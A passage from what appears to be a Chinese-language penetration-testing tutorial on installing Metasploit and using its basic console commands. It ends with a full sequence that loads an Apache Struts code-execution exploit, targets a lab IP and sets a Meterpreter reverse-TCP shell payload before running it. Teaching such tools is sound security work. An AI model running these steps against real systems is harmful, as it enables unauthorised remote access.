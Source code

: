 ### 7.1 Metasploit安裝與基本配置

**7.1.1 Kali Linux安裝**（預裝）：

```bash
# 檢查版本
msfconsole --version

# 更新Metasploit
sudo apt update
sudo apt install metasploit-framework

# 初始化資料庫
sudo msfdb init

# 啟動Metasploit
msfconsole
```

**7.1.2 基本命令介紹**：

```bash
# 啟動MSF Console
msfconsole

# 顯示幫助
help

# 搜索模組
search apache
search type:exploit platform:linux
search cve:2021-44228

# 查看模組資訊
info exploit/multi/http/apache_struts_code_exec

# 使用模組
use exploit/multi/http/apache_struts_code_exec

# 查看模組選項
show options
show advanced

# 設定選項
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444

# 查看可用payload
show payloads

# 設定payload
set payload windows/meterpreter/reverse_tcp

# 執行exploit
exploit
# 或
run
```
